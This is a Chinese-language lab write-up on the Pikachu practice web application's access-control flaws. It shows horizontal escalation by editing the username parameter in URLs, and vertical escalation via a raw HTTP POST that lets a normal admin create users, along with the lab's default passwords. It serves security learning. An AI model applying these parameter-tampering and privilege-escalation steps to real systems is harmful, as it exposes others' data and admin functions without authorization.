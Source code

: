 ```yaml
---
layout: post
title: "Pickachu 越權"
description: ""
date: 2023-07-11
categories:
  - Pickachu_Lab
  - Pickachu_BAC
author: ""
tags: ['Pickachu_Lab', 'BAC']
---
```




# Pickachu 越權

###### tags: `Pickachu`

## 水平越權


共有三個帳戶:
```
lucy/123456
lili/123456
kobe/123456
```


修改get 參數username  可以看到別人的資訊


```
http://pika/vul/overpermission/op1/op1_mem.php?username=lucy&submit=%E7%82%B9%E5%87%BB%E6%9F%A5%E7%9C%8B%E4%B8%AA%E4%BA%BA%E4%BF%A1%E6%81%AF


http://pika/vul/overpermission/op1/op1_mem.php?username=lili&submit=%E7%82%B9%E5%87%BB%E6%9F%A5%E7%9C%8B%E4%B8%AA%E4%BA%BA%E4%BF%A1%E6%81%AF


http://pika/vul/overpermission/op1/op1_mem.php?username=kobe&submit=%E7%82%B9%E5%87%BB%E6%9F%A5%E7%9C%8B%E4%B8%AA%E4%BA%BA%E4%BF%A1%E6%81%AF



```












## 垂直越權:

```
admin/123456(超級管理員)

pikachu/000000(普通管理員)
```

### 先登入 admin


### 編輯
```
http://pika/vul/overpermission/op2/op2_admin_edit.php
```


### 刪除
```
http://pika/vul/overpermission/op2/op2_admin.php?id=26
```


### 登出
```
http://pika/vul/overpermission/op2/op2_user.php?logout=1
```


### 登入 pikachu

只有查看功能，啥都沒有
```
http://pika/vul/overpermission/op2/op2_user.php
```



由於這個編輯的頁面只靠判端登入狀態就可進入，沒有確認使用者是否為admin
```
http://pika/vul/overpermission/op2/op2_admin_edit.php
```


經過測試，我們最多只能做到，新增用戶
```
POST /vul/overpermission/op2/op2_admin_edit.php HTTP/1.1
Host: pika
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 82
Origin: http://pika
Connection: close
Referer: http://pika/vul/overpermission/op2/op2_admin_edit.php
Cookie: PHPSESSID=649mnppraqenuobirie5fu8ur8
Upgrade-Insecure-Requests: 1

username=123&password=123&sex=&phonenum=&email=&address=&submit=%E5%88%9B%E5%BB%BA
```


無法做到刪除的原因

```
http://pika/vul/overpermission/op2/op2_admin.php?id=26
```

他這邊有判斷登入者是否為admin。
